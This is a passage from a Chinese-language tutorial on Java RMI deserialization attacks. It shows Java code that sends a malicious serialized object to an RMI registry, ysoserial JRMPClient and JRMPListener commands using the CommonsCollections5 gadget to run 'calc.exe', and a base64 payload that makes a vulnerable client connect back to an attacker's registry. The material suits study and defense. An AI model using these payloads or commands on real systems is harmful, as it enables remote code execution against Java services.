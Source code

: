 ```java

            objOut.writeLong(0); // RegistryImpl_Skel
            objOut.writeInt(0);
            objOut.writeLong(0);
            objOut.writeShort(0);
            objOut.writeInt(0); // bind
            objOut.writeLong(4905912898345647071L);// 接口Hash值，这里是固定的
            // 写入恶意的序列化对象
            objOut.writeObject(payloadObject);
            os.flush();
        } finally {
            // 关闭Socket输出流
            if (dos != null) {
                dos.close();
            }

            // 关闭Socket连接
            if (s != null) {
                s.close();
            }
        }
    }
}
```

### 注册中心攻击客户端
这个攻击一般是以下流程: 我们利用远程服务器的反序列化漏洞，让其作为客户端主动连接我们本地的恶意注册中心，注册中心再返回一个恶意构造的序列化对象，客户端将其反序列化从而最终造成反序列化漏洞，常用于绕过waf和测试gadget

在了解这个攻击方式之前，我们需要去了解RMI协议，参考文章: [attack-rmi-registry-and-server-with-socket](https://xz.aliyun.com/t/8247)
具体代码参考ysoserial中的exploit/JRMPListener。
#### 攻击流程
1. 运行`java -jar ysoserial.jar JRMPClient 127.0.0.1:2099 | base64 -w 0`生成一段恶意序列化对象让其回连我们的恶意注册中心
2. 运行`java -cp ysoserial.jar ysoserial.exploit.JRMPListener 2099 CommonsCollections5 "calc.exe"`启动一个恶意的注册中心
3. 手动模拟反序列化漏洞点
 ```java
package top.longlone.RMIStudy;

import sun.misc.BASE64Decoder;

import java.io.*;

public class vuln {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 上述base64之后的序列化对象，其会回连我们127.0.0.1:2099的恶意注册中心
        byte[] data = new BASE64Decoder().decodeBuffer("rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MgAKVW5pY2FzdFJlZgAJMTI3LjAuMC4xAAAIMwAAAABkqebwAAAAAAAAAAAAAAAAAAAAeA==");
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(data));
        ois.readObject();

    }
}
 ```
4. 运行上述代码，成功在客户端弹出计算器:
    ![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211118112950.png)
其触发反序列化的位置在`sun.rmi.registry.RegistryImpl_Stub#lookup`:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20211118113332.png)